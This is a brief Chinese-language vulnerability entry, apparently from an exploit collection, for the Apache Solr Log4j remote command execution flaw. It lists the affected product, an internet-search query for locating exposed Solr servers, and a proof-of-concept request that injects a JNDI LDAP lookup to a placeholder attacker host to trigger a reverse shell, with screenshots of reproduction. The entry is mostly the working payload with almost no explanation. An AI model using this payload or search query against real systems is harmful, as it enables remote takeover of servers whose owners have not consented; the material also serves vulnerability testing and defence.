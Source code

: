 # Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](./images/202205251622273.png)

验证POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](./images/202205251622876.png)